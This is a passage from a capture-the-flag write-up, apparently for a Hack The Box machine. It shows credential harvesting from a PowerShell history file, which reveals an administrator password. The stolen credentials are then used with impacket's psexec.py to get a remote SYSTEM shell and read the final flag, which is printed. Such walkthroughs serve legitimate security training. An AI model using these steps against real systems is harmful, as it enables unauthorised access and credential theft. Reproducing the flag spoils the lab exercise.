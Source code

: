 The `ConsoleHost_history.txt` file might contain some interesting information.

```console
C:\Users\sql_svc\Downloads>type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

We found username and password for administrator:

username: `administrator`

administrator: `MEGACORP_4dm1n!!`

We can use `psexec.py` from the [impacket](https://github.com/SecureAuthCorp/impacket) suite to connect. 

```console
┌──(kali㉿kali)-[~]
└─$ psexec.py administrator@10.129.156.236
Impacket v0.9.25.dev1+20220407.165653.68fd6b79 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.156.236.....
[*] Found writable share ADMIN$
[*] Uploading file XBySiGIk.exe
[*] Opening SVCManager on 10.129.156.236.....
[*] Creating service gWUC on 10.129.156.236.....
[*] Starting service gWUC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> dir C:\Users\Administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\Administrator\desktop

07/27/2021  02:30 AM    <DIR>          .
07/27/2021  02:30 AM    <DIR>          ..
02/25/2020  07:36 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,711,404,544 bytes free

C:\Windows\system32> type C:\Users\Administrator\desktop\root.txt
b91ccec3305e98240082d4474b848528
```

And that is the final flag!


**Flag:** `b91ccec3305e98240082d4474b848528`

---
**Tags:** [[Hack The Box]]
